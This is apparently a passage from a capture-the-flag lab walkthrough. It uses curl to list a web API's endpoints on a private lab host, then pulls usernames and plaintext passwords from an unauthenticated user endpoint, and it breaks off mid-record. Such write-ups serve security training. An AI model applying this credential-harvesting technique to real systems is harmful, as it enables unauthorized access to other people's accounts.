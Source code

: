 If we read go to the first Haiku's page and view the page source, we find this:

<figure><img src="../../../.gitbook/assets/image (2112).png" alt=""><figcaption></figcaption></figure>

We can enumerate the API page using `curl`.&#x20;

```
$ curl http://192.168.183.125:8080/api/ --silent | jq
[
  {
    "string": "/api/",
    "id": 13
  },
  {
    "string": "/article/",
    "id": 14
  },
  {
    "string": "/article/?",
    "id": 15
  },
  {
    "string": "/user/",
    "id": 16
  },
  {
    "string": "/user/?",
    "id": 17
  }
]
```

Using the `/user/?` endpoint gives us credentials for some users:

```
$ curl http://192.168.183.125:8080/api/user/? --silent | jq
[
  {
    "login": "rjackson",
    "password": "yYJcgYqszv4aGQ",
    "firstname": "Richard",
    "lastname": "Jackson",
    "description": "Editor",
    "id": 1
  },
  {
    "login": "jsanchez",
    "password": "d52cQ1BzyNQycg",
    "firstname": "Jennifer",
    "lastname": "Sanchez",
    "description": "Editor",
    "id": 3
  },
  {
    "login": "dademola",
    "password": "ExplainSlowQuest110",
    "firstname": "Derik",
```
